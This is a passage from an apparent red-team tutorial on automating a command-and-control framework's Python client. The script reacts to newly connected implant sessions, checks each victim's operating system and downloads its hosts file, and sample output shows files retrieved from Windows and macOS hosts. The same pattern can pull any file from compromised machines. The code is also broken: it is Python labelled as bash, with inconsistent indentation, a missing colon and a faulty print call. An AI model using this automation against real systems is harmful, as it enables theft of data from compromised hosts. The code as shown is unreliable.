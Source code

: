 ```bash

		async for event in client.on('session-connected'):
        print('Session %s just connected !' % event.Session.ID)

if __name__ == '__main__':
    loop = asyncio.get_event_loop()
    loop.run_until_complete(main())
```

As shown above we can access the session object through `event.Session`. Let’s go ahead and add a few conditions based on the operating system.

```bash
if event.Session.OS == "darwin":
            print('Session is running on macOS')

elif event.Session.OS == "Linux":
            print('Session is running on Linux')
elif event.Session.OS == "Windows"
            print('Session is running on Windows')
else:
            print('Session is running on %s', event.Session.OS)
```

Let’s setup an InteractiveSession object like previously.

```bash
interact = await client.interact_session(event.Session.ID)
```

We’re going to start with writing the code for Linux and Macos, since in their case the file is located in the same place. First we check if the file exists, then we download and decompress it to display its contents using gzip.

```bash
file_listing = await interact.ls("/etc/hosts")
if file_listing.Exists:
	gzipFile = await interact.download("/etc/hosts")
  contents = gzip.decompress(gzipFile.Data)
  print('%r' % contents)
```

The code for Windows is relatively similar the only major difference being the file location.

```bash
file_listing = await interact.ls("C:/Windows/System32/drivers/etc/hosts")
if file_listing.Exists:
	gzipFile = await interact.download("C:/Windows/System32/drivers/etc/hosts")
  contents = gzip.decompress(gzipFile.Data)
  print('%r' % contents)
```

If we run our script and spin up a few sessions we should start to see hosts files being retrieved.

```bash
python3.11 autocat.py
Automatically interacting with session 16338c85-b670-44ab-ac83-2df885654b07
b"# Copyright (c) 1993-2009 Microsoft Corp.\r\n#\r\n# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.\r\n#\r\n# ...

Automatically interacting with session 93fcbab2-f00d-44a4-944a-e1ea8ec324e2
b'##\n# Host Database\n#\n# localhost is used to configure the loopback interface\n# when the system is booting.  Do not change this entry.\n##\n127.0.0.1...
```
